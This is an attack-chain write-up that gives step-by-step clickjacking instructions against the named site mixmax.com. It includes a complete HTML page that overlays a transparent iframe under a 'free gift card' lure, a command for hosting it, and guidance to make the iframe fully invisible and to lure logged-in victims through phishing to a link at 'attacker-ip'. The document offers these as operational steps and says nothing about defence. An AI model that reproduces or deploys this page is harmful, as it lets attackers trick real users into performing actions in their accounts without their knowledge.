

# Clickjacking on Mixmax.com to Hijack User Interactions

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Local web server (e.g., Python's http.server)

### Target Environment

- Target: mixmax.com (web application)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Public internet access to host malicious page

### Initial Access Requirements

- No credentials required
- Attacker must lure victim to visit malicious page (e.g., via phishing link)
- Victim must have an active session on mixmax.com

## Detailed Attack Procedures

### Step 1: Setup and Execute Clickjacking
procedure: [[procedures/Exploit-Clickjacking-with-Transparent-Iframe]]

**Objective**: Create and host a malicious webpage that overlays a transparent iframe over mixmax.com to trick the user into clicking hidden elements, leading to unauthorized interactions.

**Instructions**: First, create a malicious HTML file with a transparent iframe targeting mixmax.com. Use a text editor to save the following as `clickjack.html`:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Free Gift Card!</title>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 1000px;
            height: 600px;
            opacity: 0.5; /* Adjust for visibility testing; set to 0 for full transparency */
            z-index: 2;
        }
        .bait {
            position: absolute;
            top: 200px;
            left: 300px;
            z-index: 1;
            background: red;
            color: white;
            padding: 10px;
        }
    </style>
</head>
<body>
    <div class="bait">Click here for your free gift!</div>
    <iframe src="https://mixmax.com"></iframe>
</body>
</html>
```

Adjust the iframe opacity to 0 for production to make it fully transparent. Then, serve the page locally using [[commands/serve-malicious-page]]:

```bash
python3 -m http.server 8000
```

Lure the victim to visit `http://attacker-ip:8000/clickjack.html` while they are logged into mixmax.com. The click on the bait button will interact with the hidden iframe, potentially performing actions like form submissions or button clicks on the target site without the user's awareness.

**Expected Output**: Victim performs unintended action on mixmax.com, such as clicking a hidden button or submitting a form.

**Success Indicators**:
- Victim visits the malicious page and interacts with the bait element
- Network traffic shows requests originating from the iframe to mixmax.com
- Unauthorized action confirmed on the target site (e.g., via logs or session changes)

## Attack Chain Summary

### Key Achievements

1. Successful overlay of transparent iframe on mixmax.com
2. Hijacking of user clicks to perform unauthorized interactions
3. Demonstration of high-impact UI redressing without additional exploits

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
